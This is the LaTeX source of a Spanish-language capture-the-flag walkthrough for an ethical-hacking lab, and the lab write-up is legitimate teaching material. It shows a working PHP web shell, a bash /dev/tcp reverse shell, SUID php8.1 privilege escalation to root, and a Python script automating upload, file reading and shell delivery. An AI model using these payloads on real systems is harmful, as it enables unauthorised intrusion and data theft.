\documentclass[12pt,a4paper]{article}

\usepackage{fontspec}
\usepackage{geometry}
\usepackage{titlesec}
\usepackage{enumitem}
\usepackage{setspace}
\usepackage{xcolor}
\usepackage{listings}
\usepackage{hyperref}
\usepackage{fancyhdr}
\usepackage{graphicx}
\usepackage{float}
\usepackage{mdframed}
\usepackage{booktabs}
\usepackage{array}
\usepackage{tcolorbox}
\usepackage{tikz}

\tcbuselibrary{skins, breakable}

\geometry{
  top=2.3cm,
  bottom=2.3cm,
  left=2.5cm,
  right=2.5cm
}

\onehalfspacing

\setmainfont{Arial}
\setmonofont{Hack Nerd Font Mono}

% ── Colores ────────────────────────────────────────────────────────────────────
\definecolor{wlbg}     {HTML}{0d1117}
\definecolor{wlsurface}{HTML}{161b22}
\definecolor{wlborder} {HTML}{30363d}
\definecolor{wlgreen}  {HTML}{3fb950}
\definecolor{wlcyan}   {HTML}{79c0ff}
\definecolor{wlpurple} {HTML}{bc8cff}
\definecolor{wlyellow} {HTML}{e3b341}
\definecolor{wlred}    {HTML}{f85149}
\definecolor{wltext}   {HTML}{e6edf3}
\definecolor{wlmuted}  {HTML}{8b949e}
\definecolor{codebg}   {HTML}{161b22}
\definecolor{inlinebg} {HTML}{1c2128}

% ── Hipervínculos ──────────────────────────────────────────────────────────────
\hypersetup{
  colorlinks=true,
  urlcolor=wlcyan,
  linkcolor=wlcyan
}

% ── Encabezado y pie ──────────────────────────────────────────────────────────
\pagestyle{fancy}
\setlength{\headheight}{24.02pt}
\addtolength{\topmargin}{-6.02pt}
\fancyhf{}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\headrule}{\hbox to\headwidth{\color{wlborder}\leaders\hrule height \headrulewidth\hfill}}
\lhead{\color{wlmuted}\small\texttt{WarLabs — Lab 02}}
\rhead{\color{wlmuted}\small\texttt{Sn0wBaall}}
\cfoot{\color{wlmuted}\small\thepage}

\setlength{\parindent}{0pt}
\setlength{\parskip}{7pt}

% ── Títulos de sección ────────────────────────────────────────────────────────
\titleformat{\section}
  {\Large\bfseries\color{wlcyan}}
  {}{0em}{}
  [\vspace{-4pt}{\color{wlborder}\rule{\linewidth}{0.5pt}}]

\titleformat{\subsection}
  {\large\bfseries\color{wlpurple}}
  {}{0em}{}

\titleformat{\subsubsection}
  {\normalsize\bfseries\color{wlyellow}}
  {}{0em}{}

% ── Listas ────────────────────────────────────────────────────────────────────
\setlist[itemize]{
  leftmargin=1.8em,
  itemsep=2pt,
  label={\color{wlgreen}\textbullet}
}
\setlist[itemize,2]{
  label={\color{wlmuted}$\circ$}
}

% ── Bloques de código ─────────────────────────────────────────────────────────
\lstset{
  backgroundcolor=\color{codebg},
  basicstyle=\ttfamily\small\color{wltext},
  keywordstyle=\color{wlpurple}\bfseries,
  commentstyle=\color{wlmuted}\itshape,
  stringstyle=\color{wlgreen},
  numberstyle=\tiny\color{wlmuted},
  breaklines=true,
  columns=fullflexible,
  frame=single,
  framesep=6pt,
  rulecolor=\color{wlborder},
  xleftmargin=8pt,
  xrightmargin=4pt,
  showstringspaces=false,
  tabsize=4,
}

\lstdefinestyle{output}{
  backgroundcolor=\color{wlbg},
  basicstyle=\ttfamily\small\color{wlgreen},
  frame=single,
  rulecolor=\color{wlborder},
  xleftmargin=8pt,
  xrightmargin=4pt,
  breaklines=true,
  columns=fullflexible,
}

\lstdefinestyle{pythonstyle}{
  language=Python,
  backgroundcolor=\color{codebg},
  basicstyle=\ttfamily\small\color{wltext},
  keywordstyle=\color{wlpurple}\bfseries,
  commentstyle=\color{wlmuted}\itshape,
  stringstyle=\color{wlgreen},
  numberstyle=\tiny\color{wlmuted},
  breaklines=true,
  columns=fullflexible,
  frame=single,
  framesep=6pt,
  rulecolor=\color{wlborder},
  xleftmargin=8pt,
  xrightmargin=4pt,
  showstringspaces=false,
}

\lstdefinestyle{phpstyle}{
  language=PHP,
  backgroundcolor=\color{codebg},
  basicstyle=\ttfamily\small\color{wltext},
  keywordstyle=\color{wlpurple}\bfseries,
  commentstyle=\color{wlmuted}\itshape,
  stringstyle=\color{wlgreen},
  numberstyle=\tiny\color{wlmuted},
  breaklines=true,
  columns=fullflexible,
  frame=single,
  framesep=6pt,
  rulecolor=\color{wlborder},
  xleftmargin=8pt,
  xrightmargin=4pt,
  showstringspaces=false,
}

% ── Cajas ─────────────────────────────────────────────────────────────────────
\newtcolorbox{notebox}{
  enhanced,
  colback=wlsurface,
  colframe=wlyellow,
  leftrule=3pt, toprule=0.4pt, bottomrule=0.4pt, rightrule=0.4pt,
  arc=4pt,
  fontupper=\small\color{wltext},
  left=8pt, right=8pt, top=6pt, bottom=6pt,
}

\newtcolorbox{flagbox}{
  enhanced,
  colback=wlsurface,
  colframe=wlgreen,
  leftrule=3pt, toprule=0.4pt, bottomrule=0.4pt, rightrule=0.4pt,
  arc=4pt,
  fontupper=\small\color{wltext},
  left=8pt, right=8pt, top=6pt, bottom=6pt,
}

\newtcolorbox{warnbox}{
  enhanced,
  colback=wlsurface,
  colframe=wlred,
  leftrule=3pt, toprule=0.4pt, bottomrule=0.4pt, rightrule=0.4pt,
  arc=4pt,
  fontupper=\small\color{wltext},
  left=8pt, right=8pt, top=6pt, bottom=6pt,
}

% ── Macro para código inline ──────────────────────────────────────────────────
\newcommand{\cmd}[1]{%
  \colorbox{inlinebg}{\texttt{\small\color{wlcyan}#1}}%
}

% ─────────────────────────────────────────────────────────────────────────────
\begin{document}

\pagecolor{wlbg}
\color{wltext}

% ── Portada ───────────────────────────────────────────────────────────────────
\begin{titlepage}
  \centering
  \vspace*{3cm}

  {\color{wlgreen}\Huge\bfseries\ttfamily WarLabs}

  \vspace{0.4cm}
  {\color{wlmuted}\large\ttfamily Plataforma de Hacking Ético}

  \vspace{2.5cm}
  {\color{wlcyan}\rule{0.6\linewidth}{0.5pt}}

  \vspace{1cm}
  {\color{wltext}\LARGE\bfseries Walkthrough — Lab 02}\\[0.4cm]
  \vspace{1cm}
  {\color{wlcyan}\rule{0.6\linewidth}{0.5pt}}

  \vspace{2cm}

  \begin{tabular}{@{}r l@{}}
    \color{wlmuted}Sistema Operativo & \color{wltext}\textbf{Linux}\\[4pt]
    \color{wlmuted}Dificultad        & \color{wlgreen}\textbf{Fácil}\\[4pt]
    \color{wlmuted}Autor             & \color{wltext}\textbf{Sn0wBaall}\\[4pt]
  \end{tabular}

  \vfill
  {\color{wlmuted}\small\ttfamily github.com/Sn0wBaall}
\end{titlepage}

% ── Tabla de contenidos ───────────────────────────────────────────────────────
\tableofcontents
\newpage

% ─────────────────────────────────────────────────────────────────────────────
\section{Información de la máquina}

\begin{tabular}{@{}>{\color{wlmuted}}l >{\color{wltext}}l@{}}
  \midrule
  Sistema Operativo & Linux (Ubuntu) \\
  Dificultad        & \textcolor{wlgreen}{\textbf{Fácil}} \\
  Objetivo          & Obtener RCE mediante subida de archivos y escalar a \texttt{root} \\
  \bottomrule
\end{tabular}

\vspace{8pt}
\begin{notebox}
  \textbf{Vectores de ataque:} Enumeración web → subida de webshell PHP → RCE → reverse shell → SUID en \texttt{php8.1}.
\end{notebox}

% ─────────────────────────────────────────────────────────────────────────────
\section{Herramientas}

\begin{itemize}
  \item \textbf{Nmap} — Escáner de puertos y detección de servicios
  \item \textbf{Whatweb} — Fingerprinting de tecnologías web
  \item \textbf{Gobuster} — Fuzzing de directorios y archivos
  \item \textbf{Netcat (nc)} — Listener para recibir la reverse shell
  \item \textbf{Searchbins} — Búsqueda de técnicas de abuso de binarios con capabilities/SUID
\end{itemize}

% ─────────────────────────────────────────────────────────────────────────────
\section{Fase de reconocimiento}

\subsection{Escaneo de puertos}

Comenzamos con un escaneo completo de puertos sobre la máquina objetivo:

\begin{lstlisting}[language=bash]
sudo nmap -sS -p- --open --min-rate 5000 -n -vvv -Pn -oG allPorts 192.168.1.38
\end{lstlisting}

\begin{notebox}
  \textbf{Desglose de parámetros:}
  \begin{itemize}
    \item \cmd{-sS} \textbf{(Stealth Scan)} — No completa el Three-Way Handshake. Envía \texttt{SYN}, recibe \texttt{SYN/ACK} y responde con \texttt{RST}, sin establecer conexión completa.
    \item \cmd{-p-} — Escanea los 65535 puertos TCP.
    \item \cmd{--open} — Filtra y muestra únicamente puertos abiertos.
    \item \cmd{--min-rate 5000} — Fuerza un mínimo de 5000 paquetes por segundo.
    \item \cmd{-n} — Desactiva la resolución DNS.
    \item \cmd{-vvv} — Modo verbose: muestra los puertos encontrados en tiempo real.
    \item \cmd{-Pn} — Omite el host discovery asumiendo que el host está activo.
    \item \cmd{-oG allPorts} — Guarda el resultado en formato grepeable.
  \end{itemize}
\end{notebox}

Resultado del archivo \texttt{allPorts}:

\begin{lstlisting}[style=output]
# Nmap 7.98 scan initiated Mon Feb  2 18:32:56 2026
Host: 192.168.1.38 ()   Status: Up
Host: 192.168.1.38 ()   Ports: 80/open/tcp//http///   Ignored State: closed (65534)
# Nmap done at Mon Feb  2 18:33:04 2026 -- 1 IP address (1 host up) scanned in 7.28 seconds
\end{lstlisting}

Encontramos únicamente el puerto \textbf{80 (HTTP)} abierto. Realizamos un segundo escaneo para detectar versiones y servicios:

\begin{lstlisting}[language=bash]
nmap -sCV -p80 -oN portsVersion 192.168.1.38
\end{lstlisting}

\begin{notebox}
  \textbf{Desglose de parámetros:}
  \begin{itemize}
    \item \cmd{-sC} — Ejecuta los scripts por defecto de Nmap.
    \item \cmd{-sV} — Detecta la versión de cada servicio.
    \item \cmd{-p80} — Limita el escaneo al puerto 80.
    \item \cmd{-oN portsVersion} — Guarda el resultado en formato Nmap normal.
  \end{itemize}
\end{notebox}

\begin{lstlisting}[style=output]
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: S4rnL4bs | File Manager
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 2C:CF:67:44:B3:EB (Raspberry Pi (Trading))
\end{lstlisting}

Análisis de los resultados:

\begin{itemize}
  \item \textbf{HTTP (puerto 80)}
  \begin{itemize}
    \item Servidor: \textbf{Apache 2.4.52} sobre \textbf{Ubuntu}
    \item Título de la aplicación: \textbf{S4rnL4bs | File Manager}
    \item Esto indica que hay un \textbf{gestor de archivos accesible via web}
  \end{itemize}
  \item \textbf{Hardware}
  \begin{itemize}
    \item La dirección MAC identifica una \textbf{Raspberry Pi}
  \end{itemize}
\end{itemize}

\subsection{Fingerprinting web con Whatweb}

\begin{lstlisting}[language=bash]
whatweb http://192.168.1.38
\end{lstlisting}

\begin{lstlisting}[style=output]
http://192.168.1.38 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5,
HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)],
IP[192.168.1.38], Title[S4rnL4bs | File Manager]
\end{lstlisting}

Whatweb únicamente confirma la información ya obtenida con Nmap. No se detectan frameworks ni CMS que aporten información adicional.

\subsection{Revisión manual de la web}

Accedemos a la aplicación desde el navegador:

\begin{figure}[H]
  \centering
  
\includegraphics[width=\textwidth]{Images/Image1.png}
  \caption{Aplicación web en \texttt{http://192.168.1.38} — gestor de subida de archivos}
\end{figure}

La aplicación permite la \textbf{subida de archivos}. Ante la ausencia de un panel de login o sesiones privilegiadas, el robo de cookies no aportaría ventaja. El vector más prometedor es intentar subir una \textbf{web shell PHP} para obtener ejecución remota de comandos.

\subsection{Fuzzing de directorios con Gobuster}

Tras subir un archivo de prueba, no se muestra ninguna confirmación de dónde fue almacenado. Utilizamos Gobuster para descubrir el directorio de destino:

\begin{lstlisting}[language=bash]
gobuster dir -u http://192.168.1.38 \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt \
  -t 200 -o fuzzing.txt
\end{lstlisting}

\begin{notebox}
  \textbf{Desglose de parámetros:}
  \begin{itemize}
    \item \cmd{dir} — Modo de descubrimiento de directorios.
    \item \cmd{-u} — URL objetivo.
    \item \cmd{-w} — Wordlist utilizada para el fuzzing.
    \item \cmd{-t 200} — Número de hilos concurrentes.
    \item \cmd{-o fuzzing.txt} — Guarda los resultados en un archivo.
  \end{itemize}
\end{notebox}

\begin{lstlisting}[style=output]
uploads    (Status: 301) [Size: 314] [--> http://192.168.1.38/uploads/]
\end{lstlisting}

El directorio \textbf{/uploads} devuelve un código \textbf{301 (Moved Permanently)}, lo que confirma que es un directorio válido y accesible. Esto indica que los archivos subidos se almacenan en esta ruta.

% ─────────────────────────────────────────────────────────────────────────────
\section{Fase de explotación}

\subsection{Creación y subida de la web shell}

Creamos un archivo \texttt{webshell.php} que ejecute comandos del sistema a través del parámetro \texttt{cmd} enviado por \textbf{GET}:

\begin{lstlisting}[style=phpstyle]
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
\end{lstlisting}

\begin{warnbox}
  \textbf{¿Por qué funciona?} La aplicación no valida la extensión de los archivos subidos, lo que permite subir directamente un archivo \texttt{.php}. Al estar alojado en un servidor Apache con PHP activo, el archivo es interpretado y ejecutado como código PHP, lo que nos otorga \textbf{RCE}.
\end{warnbox}

Navegamos al directorio \texttt{/uploads} para confirmar que la web shell fue subida correctamente:

\begin{figure}[H]
  \centering
  
\includegraphics[width=\textwidth]{Images/Image2.png}
  \caption{Directorio \texttt{/uploads} con la web shell almacenada}
\end{figure}

\subsection{Verificación de RCE}

Accedemos a la web shell y ejecutamos \texttt{whoami} para confirmar la ejecución remota de comandos:

\begin{figure}[H]
  \centering
  
\includegraphics[width=\textwidth]{Images/Image3.png}
  \caption{Ejecución de \texttt{whoami} desde la web shell — RCE confirmado}
\end{figure}

\begin{flagbox}
  \textbf{RCE confirmado.} El comando se ejecuta en el contexto del usuario \texttt{www-data}.
\end{flagbox}

\subsection{Obtención de una Reverse Shell}

Con RCE confirmado, el siguiente paso es obtener una \textbf{reverse shell} para una interacción más cómoda con el servidor. Primero nos ponemos en escucha con Netcat en nuestra máquina atacante:

\begin{lstlisting}[language=bash]
nc -nlvp 666
\end{lstlisting}

\begin{notebox}
  \textbf{Desglose de parámetros \texttt{-nlvp}:}
  \begin{itemize}
    \item \cmd{-n} — No hace resolución DNS.
    \item \cmd{-l} — Activa el modo escucha (listen).
    \item \cmd{-v} — Modo verbose, muestra información sobre la conexión entrante.
    \item \cmd{-p 666} — Puerto local en el que Netcat queda a la espera.
  \end{itemize}
\end{notebox}

Desde la web shell, ejecutamos el payload de reverse shell:

\begin{lstlisting}[language=bash]
bash -c "bash -i >& /dev/tcp/192.168.1.46/666 0>&1"
\end{lstlisting}

Una vez establecida la conexión, obtenemos una shell interactiva en el servidor como \texttt{www-data}.

% ─────────────────────────────────────────────────────────────────────────────
\section{Escalada de privilegios}

\subsection{Búsqueda de binarios SUID}

Dentro del servidor, buscamos binarios con el bit \textbf{SUID} activado:

\begin{lstlisting}[language=bash]
find / -perm -4000 2>/dev/null
\end{lstlisting}

\begin{notebox}
  \textbf{Desglose del comando:}
  \begin{itemize}
    \item \cmd{/} — Punto inicial de búsqueda: raíz del sistema.
    \item \cmd{-perm -4000} — Filtra archivos con el bit SUID (\texttt{4000}) activo.
    \item \cmd{2>/dev/null} — Redirige los errores a \texttt{/dev/null}, ocultando mensajes de permisos denegados.
  \end{itemize}
\end{notebox}

\begin{lstlisting}[style=output]
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/php8.1
/usr/bin/sudo
\end{lstlisting}

El binario \textbf{\texttt{/usr/bin/php8.1}} destaca inmediatamente. No es habitual que un intérprete de scripting tenga el bit SUID activado, ya que esto permite ejecutar código arbitrario con los privilegios del propietario del binario (\texttt{root}).

\subsection{Explotación del SUID en php8.1}

Utilizamos \href{https://github.com/r1vs3c/searchbins}{\textbf{searchbins}} para obtener el payload de explotación de SUID para PHP:

\begin{lstlisting}[language=bash]
searchbins -b php -f suid
\end{lstlisting}

\begin{lstlisting}[style=output]
./php -r "pcntl_exec('/bin/sh', ['-p']);"
\end{lstlisting}

Ejecutamos el payload directamente sobre el binario con SUID:

\begin{lstlisting}[language=bash]
/usr/bin/php8.1 -r "pcntl_exec('/bin/sh', ['-p']);"
\end{lstlisting}

\begin{lstlisting}[style=output]
# whoami
root
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
#
\end{lstlisting}

\begin{flagbox}
  \textbf{Máquina comprometida.} Se ha obtenido acceso como \texttt{root} (euid=0) mediante el SUID en \texttt{php8.1}.
\end{flagbox}

% ─────────────────────────────────────────────────────────────────────────────
\section{Extra: Script de automatización}

Tras resolver el laboratorio, se desarrolló un script en Python para automatizar todo el proceso de explotación, incluyendo la subida de la webshell, la consulta de archivos del sistema y el envío de la reverse shell.

\begin{figure}[H]
  \centering
  
\includegraphics[width=\textwidth]{Images/Image4.png}
  \caption{Script de automatización en ejecución}
\end{figure}

\begin{lstlisting}[style=pythonstyle]
#!/usr/bin/env python3

from pwn import log
from termcolor import colored
from urllib.parse import quote
import signal
import requests
import sys
import os

def signal_handler(key, frame):
    print()
    log.failure(f"{colored('Exit...', 'white')}")
    sys.exit(1)

signal.signal(signal.SIGINT, signal_handler)

def webShell(target, ip, port):
    try:
        requests.get(target, timeout=2)
    except:
        log.failure(f"{colored('Check if the target is reachable', 'white')}")
        sys.exit(1)

    upload = target + "/upload.php"
    payload = r"""
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>"""
    files = {"file": ("poc.php", payload, "application/x-php")}
    request = requests.post(upload, files=files)

    if request.status_code != 200:
        log.failure(f"{colored('The file could not be uploaded', 'white')}")
        sys.exit(1)

    log.success(f"{colored('Webshell uploaded successfully', 'white')}")

    while True:
        option = input("  [R]everse shell / [C]onsult files: ").strip()
        if option == "R":
            reverseShell(target, ip, port)
            break
        elif option == "C":
            consultFiles(target)
            break
        elif option == "exit":
            sys.exit(1)

def reverseShell(target, ip, port):
    base_url = f"{target.rstrip('/')}/uploads/poc.php?cmd="
    payload = 'bash -c "bash -i >& /dev/tcp/{}/{} 0>&1"'.format(ip, port)
    url = base_url + quote(payload)
    log.info(f"Listen with: nc -nlvp {port}")
    input("Press <enter> to send the shell...")
    try:
        requests.get(url, timeout=1)
    except:
        pass
    log.success("Done :D")

def consultFiles(target):
    base_url = target + "/uploads/poc.php?cmd=cat "
    log.info("Write the full path of a file (or 'exit')")
    while True:
        file = input("  [File]: ").strip()
        if file == "exit":
            sys.exit(1)
        response = requests.get(base_url + file).text
        print(response)

if __name__ == '__main__':
    if len(sys.argv) < 3:
        log.info(f"Usage: {sys.argv[0]} <url> <hostIP> [hostPort]")
        sys.exit(1)
    target = sys.argv[1]
    ip = sys.argv[2]
    port = sys.argv[3] if len(sys.argv) > 3 else 666
    webShell(target, ip, port)
\end{lstlisting}

% ─────────────────────────────────────────────────────────────────────────────
\section{Resumen del ataque}

\begin{enumerate}
  \item \textbf{Reconocimiento} — Nmap detecta únicamente el puerto 80 con Apache y un gestor de archivos.
  \item \textbf{Enumeración} — Gobuster descubre el directorio \texttt{/uploads} donde se almacenan los archivos subidos.
  \item \textbf{Explotación (RCE)} — La ausencia de validación de extensiones permite subir una webshell PHP y ejecutar comandos remotamente.
  \item \textbf{Acceso inicial} — Reverse shell obtenida desde la webshell como usuario \texttt{www-data}.
  \item \textbf{Escalada de privilegios} — SUID en \texttt{php8.1} permite ejecutar \texttt{pcntl\_exec} y obtener una shell como \texttt{root}.
\end{enumerate}

\end{document}
